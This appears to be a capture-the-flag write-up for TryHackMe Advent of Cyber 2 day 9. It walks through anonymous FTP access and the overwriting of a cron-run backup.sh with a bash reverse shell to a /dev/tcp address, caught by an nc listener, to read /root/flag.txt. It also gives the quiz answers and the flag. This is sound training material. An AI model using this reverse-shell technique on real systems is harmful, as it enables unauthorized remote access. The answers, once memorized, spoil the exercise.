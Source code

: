 # Advent of cyber 2 | day 9 | Anyone can be Santa!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.91.82` it'll probably be diffrent for you.

## Question #1
*Name the directory on the FTP server that has data accessible by the "anonymous" user*

Just connecting to the FTP server with the username: `anonymous` grants us access
```bash
ftp 10.10.91.82
```

running `ls` we get this:

![FTP file listing](./imgaes/ftp_ls.png)

as we can see everyone can access `public` indicated by `drwxrwxrwx` premmitons, so that's our answer: `public`

## Question #2
*What script gets executed within this directory?*

As we can see there are 4 directories:
- backups
- elf_workshops
- human_resources
- public

However other then `public` all other directories are empty (We can see that with the `ls` and seeing the size of the dirctories)

Hoping into public with `cd public`:

![contents of public directory](./images/content_of_public.png)

We see 2 files
- backup.sh
- shoppinglist.txt

`backup.sh` is a shell script so that's our answer.

## Question #3
*What movie did Santa have on his Christmas shopping list?*

We can get both files using
```bash 
get backup.sh
get shoppinglist.txt
```
Inside the public directory

the contents of `shoppinglist.txt` are:
```
The Polar Express Movie
```
So the answer is `The Polar Express`


## Question #4
*Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!*

The contents of `backup.sh` are:
```bash 
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```
Because we know this scriping is running every minute we can replace it contents with a reverse shell

I am going to use the reserve shell they showed above
```bash
bash -i >& /dev/tcp/{my_ip}/{port_to_connetct to} 0>&1 
```
We can get our IP with:
```bash
ip a s tun0
```
- Note: `ip a s tun0` is `ip adress show tun0`

![My IP](./images/my_ip.png)

So for me it's gonna look like this
```bash
bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

Not forgeting to add the shabang line on top: `#!/bin/bash`

So I made a copy of backup.sh with the contents of:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

And now I am going to open a listener on port `9001` with this:
```bash
nc -lnvp 9001
```

And reuplod `backup.sh` with my changes and wait for a connetion

And after a minute or so, Jackpot we're in :P

![jackpot](./images/jackpot.png)

And so we can get `/root/flag.txt`

![Flag](./images/flag.txt)

So our answer is of course:
```
THM{even_you_can_be_santa}
```

